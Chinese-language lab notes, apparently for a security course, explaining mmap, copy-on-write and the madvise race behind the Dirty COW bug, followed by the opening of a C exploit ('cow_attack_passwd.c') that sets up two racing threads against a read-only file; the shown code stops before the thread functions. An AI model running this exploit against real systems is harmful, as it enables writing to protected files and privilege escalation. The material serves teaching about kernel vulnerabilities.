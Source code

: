 1.mmap()系统调用来创建一个内存映射。

- 第一个参数指定内存映射的起始地址。如果为NULL则起始地址由内核决定
- 第二个参数指定内存映射大小
- 第三个参数指定内存是否可读或可写，需要和文件打开时的访问类型相匹配
- 第四个参数决定该映射内容的更新是否对其它映射到相同区域的进程可见，以及该更新是否进而导致映射的文件发生更新（MAP_SHARED\MAP_PRIVATE）
- 第五个参数指定哪个文件被映射
- 第六个参数指定一个偏移量，指出应该从文件哪个偏移开始映射。

一旦一个文件被映射到内存中，则可以通过读取和写入映射内存的方式来访问该文件。

2.MAP_SHARED：对于映射内存的修改会反映到物理内存中，因此这样的改动对其它同样映射了这个文件的进程立即可见

3.MAP_PRIVATE：修改时将原始内存中的内容复制到私有内存中。写时拷贝（COW）copy-on-write

4.在程序得到映射内存的私有拷贝之后，它可以使用一个名为madvise()的系统调用建议操作系统内核如何处理该内存

```
int madvise(void *addr,size_t length,int advice)
```

当使用MADV_DONTNEED作为第三个参数时，内核会释放该部分地址空间的资源，并更改进程页表

5.对于写时拷贝类型内存，write()需要三个步骤：

1）对映射的物理内存做一份拷贝

2）更新页表，让虚拟内存指向新创建的物理内存

3）写入内存

由于这几步不是原子化的，就造成了竞争条件

在步骤2-3之间使用madvise使其指向最开始的物理内存

6.cow_attack_passwd.c

需要在Ubuntu12.04环境下进行，16.04已修复

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "222222");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

```